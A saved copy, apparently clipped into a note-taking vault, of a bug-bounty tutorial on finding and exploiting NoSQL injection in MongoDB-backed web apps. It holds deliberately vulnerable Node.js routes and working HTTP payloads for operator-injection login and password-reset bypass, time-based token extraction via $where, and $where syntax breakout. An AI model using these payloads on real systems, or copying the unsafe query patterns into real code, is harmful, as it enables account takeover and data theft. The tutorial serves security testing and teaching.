 ```yaml
---
author: blackbird-eu
aliases:
  - "NoSQLi: A Complete Guide to Exploiting Advanced NoSQL Injection Vulnerabilities"
tags:
  - readwise/articles
url: https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-nosql-injection-nosqli-vulnerabilities?__readwiseLocation=
date: 2025-04-28
summary: NoSQL injections are relatively easier to exploit than classic SQL injections. However, developers often overlook these vulnerabilities, mainly due to limited awareness. Additionally, false beliefs among software engineers that NoSQL databases inherently resist injection attacks further increase the likelihood of discovering NoSQLi vulnerabilities.In this article, we will dive…
---
```

# NoSQLi: A Complete Guide to Exploiting Advanced NoSQL Injection Vulnerabilities

In this article, we will dive deeper into identifying and exploiting advanced [NoSQL Injection](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/NoSQL%20Injection.md). [](https://read.readwise.io/read/01jsxkq4fax6ktfsm71qpj8psy)

A few examples of [NoSQL](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/NoSQL%20101.md) databases include:
- MongoDB, a popular open-source NoSQL database supported
- Redis, an in-memory key-value store often used for caching data
- Elasticsearch, a commonly used NoSQL database for at-scale and complex search operations
- Apache CouchDB, a popular open-source NoSQL database with native REST HTTP API support
- Cloudflare KV or Amazon DynamoDB, both well-known serverless key-value storage options [](https://read.readwise.io/read/01jsxksn8tbsqsf1c506nrrykq)

## What are NoSQL injection vulnerabilities?

Similar to classic [SQL Injection](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SQL%20Injection.md), [NoSQL Injections](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/NoSQL%20Injection.md) stem from direct concatenation of unsanitized user input into a database query. This can allow an attacker to break out of the context and manipulate the query. [](https://read.readwise.io/read/01jsxkt7yvbzj6k4av85rn29t0)

The equivalent database query to authenticate a customer would look like this: [](https://read.readwise.io/read/01jsxkwq2a90ss049py5erpb5s)
```js
db.customers.findOne({ customer_email: 'customer@example.com', password: 'hunter2' }) 
```

NoSQL databases provide support for operators [^1], such as `$gt`, which help us filter fields by looking for values **greater than** the provided value.
Returning to our example, if our input is not sanitized, we could send the following HTTP POST request [](https://read.readwise.io/read/01jsxkx8xsmwfgpbm3a0pqc8yf)

```http
POST /customer_zone/sign_in HTTP/2.0
Host: example.com
Content-Type: application/json
User-Agent: ...

{
    "customer_email": "customer@example.com",
    "password": { "$gt": "" }
}
```

## Identifying NoSQL injection vulnerabilities

To identify a potential injection point, you need to break out the current syntax or inject an operator and observe any response changes, such as noticeable differences in content length, status code, or response headers.
Examine every input field and systematically inject different types of syntax-breaking characters, such as: [](https://read.readwise.io/read/01jsxky4pbw90zk45hjdv068e1)
```
$
{
}
\
"
`
;
%00 
```

## Exploiting simple NoSQL injections

One way to test for and exploit NoSQL injections is to break out of the syntax and inject our own logic to manipulate a query. [](https://read.readwise.io/read/01jsxm77hhvmcf1cqz3ata302r)

### Authentication bypass via operator injection

```js
// Application route handling password reset
app.post('/auth/reset-password', async (req, res) => {
  const { email, resetToken, newPassword } = req.body;
  
  try {
    const token = await db.collection('auth-tokens').findOne({
      email: email,
      resetPasswordToken: resetToken,
      resetPasswordExpires: { $gt: Date.now() }
    });
    
    if (!token) {
      return res.status(400).json({ message: 'Password reset token is invalid or has expired' });
    }
    
    // Update user's password
    await db.collection('users').updateOne({ email: email },
      { $set: {
          password: await bcrypt.hash(newPassword, 10)
      }    
    });
    
    res.json({ message: 'Password has been reset' });
  } catch (error) {
    console.error('Error during password reset:', error);
    res.status(500).json({ message: 'Server error' });
  }
});
```

Notice how our password reset token is concatenated **directly** into the MongoDB query. We can make use of an operator that manipulates the query to make it truthful. [](https://read.readwise.io/read/01jsxm8mhrrttjm0rda7gndb71)

```http
POST /auth/reset-password HTTP/2
Host: app.example.com
Content-Type: application/json; charset=utf-8
User-Agent: ...

{
    "email": "admin@example.com",
    "token": {"$ne": null},
    "newPassword": "hunter2"
}
```

In our payload, we used `$ne`, an operator that selects documents where the value is not equal to the specified value [](https://read.readwise.io/read/01jsxmb45gx3hwmedtz3jtgx1t).

#### MongoDB Operators
MongoDB supports several other operators:
- `$regex`: Selects documents where values match a specified regular expression
- `$where`: Matches documents that satisfy a JavaScript expression
- `$exists`: Matches documents that have the specified field
- `$eq`: Matches values that are equal to a specified value
- `$ne`: Matches values that are not equal to a specified value
- `$gt`: Matches values that are greater than a specified value [](https://read.readwise.io/read/01jsxmbcsza1474m070gfpqvpc)

>[!tip]
>If your application handles all request body data in form-data, you can make use of parameter arrays instead. [](https://read.readwise.io/read/01jsxmbrxevqhxa63qpntjdmve) [](https://read.readwise.io/read/01jsxmbyaw4ng5y3gm6zdntc9b)

```http
POST /auth/reset-password HTTP/2
Host: app.example.com
Content-Type: application/x-www-form-urlencoded; charset=utf-8
User-Agent: ...

email=admin@example.com&token[$ne]=null&newPassword=hunter2
```


## Exploiting advanced NoSQL injections

### Extracting data with time delays

We can also exfiltrate data from fields by invoking a conditional time delay. [](https://read.readwise.io/read/01jsxmcg8qc65ccqx3dbxp2m2s)
```http
POST /auth/reset-password HTTP/2
Host: app.example.com
Content-Type: application/json; charset=utf-8
User-Agent: ...

{
  "email": "admin@example.com",
  "token": {
      "$where": "if(this.token.startsWith('a')) {sleep(5000); return true;} else {return true;}"
  },
  "password": "hunter2"
}
```

### Executing server-side JavaScript code with NoSQL syntax injection

Throughout this article, we've mentioned that server-side JavaScript code execution is possible using the `$where` operator in MongoDB. Other NoSQL databases provide similar functionality to help developers create more advanced query filters. [](https://read.readwise.io/read/01jsxmdevewm5hr2t5vq5fv2bh)

If our unsanitised input ever lands in a **$where** clause, we can break out of the syntax and execute arbitrary JavaScript code to make changes or exfiltrate other fields. [](https://read.readwise.io/read/01jsxme3dta6gqygjwkccjthg6)


```js
// Application route handling email unsubscribes
app.post('/newsletter/unsubscribe', async (req, res) => {
  const { email, unsubscribeToken } = req.body;
  
  try {
    const subscriber = await db.collection('subscribers').findOne({
      $where: 'this.email == ' + email + ' && this.unsubscribeToken == ' + unsubscribeToken
    });
    
    if (subscriber) {
      // Update the subscriber's preferences
      await db.collection('subscribers').updateOne(
        { email: email },
        { $set: { subscribed: false } }
      );
      
      res.json({ success: true, message: 'Successfully unsubscribed from all communication channels!' });
    } else {
      res.status(401).json({ success: false, message: 'Invalid email or token' });
    }
  } catch (error) {
    console.error('Unsubscribe error:', error);
    res.status(500).json({ success: false, message: 'Server error' });
  }
});
```


```http
POST /newsletter/unsubscribe HTTP/2
Host: app.example.com
Content-Type: application/x-www-form-urlencoded; charset=utf-8
User-Agent: ...

email=user@example.com'+||+TRUE;//&token=
```

This is possible because the payload matches all emails and removes the requirement of a token:
`this.email == 'user@example.com' || TRUE; // && this.unsubscribeToken == `
[](https://read.readwise.io/read/01jsxmewfa608gferptxmyeds9)

[^1]: [Operator Injection](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/NoSQL%20Injection.md#Operator%20Injection)
